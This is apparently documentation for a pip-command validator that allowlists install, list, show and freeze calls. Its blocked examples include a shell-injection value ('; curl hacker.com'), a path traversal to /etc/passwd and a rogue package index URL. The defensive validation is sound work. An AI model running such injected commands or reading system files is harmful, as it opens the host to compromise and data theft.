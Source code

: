 
### 2. `_is_safe_pip_command()`

**Handles**:
- `pip install -r requirements.txt`
- `pip install <packages>` (with flags like `--upgrade`)
- `pip list`, `pip show`, `pip freeze`

**Validation Logic**:
```python
Allow: pip install -r requirements.txt
if args[0] == "install" and args[1] == "-r":
    req_file = args[2] # (after parsing flags)
    if self._validate_path_for_command(req_file):
        return True # ✅
    else:
        return False # ❌ Path outside root

Allow: pip install django celery --upgrade
if args[0] == "install" and args[1] != "-r":
    packages = []
    allowed_flags = {"--upgrade", "--no-cache-dir", "--force-reinstall", "--no-deps", "-U"}

    for arg in args[1:]:
        if arg.startswith('-'):
            if arg not in allowed_flags:
                logger.warning(f"Unrecognized flag: {arg}")
                return False  # ❌
        else:
            # Validate package name
            pkg_match = re.match(r"^[a-zA-Z0-9_\-\.]+(?:\[[a-zA-Z0-9_\-,]+\])?(?:[<>=!~]=?[0-9a-zA-Z\.\-\_\*]+)?$", arg)
            if not pkg_match:
                logger.warning(f"Invalid package specifier: {arg}")
                return False  # ❌
            packages.append(arg)

    if not packages:
        logger.warning("No packages specified")
        return False  # ❌

    return True  # ✅
```

**Examples**:
```
✅ Allowed
_is_safe_pip_command(["install", "-r", "requirements.txt"])
_is_safe_pip_command(["install", "django==4.2", "celery", "--upgrade"])
_is_safe_pip_command(["install", "djangorestframework[jwt]"])
_is_safe_pip_command(["list"])
_is_safe_pip_command(["show", "django"])
_is_safe_pip_command(["freeze"])

❌ Blocked
_is_safe_pip_command(["install", "malicious-package; curl hacker.com"])
Reason: Contains ";" (shell metacharacter)

_is_safe_pip_command(["install", "-r", "../../../etc/passwd"])
Reason: Path traversal

_is_safe_pip_command(["install", "--index-url=http://malware.com/pypi"])
Reason: Custom index URL not in allowed_flags
```

---
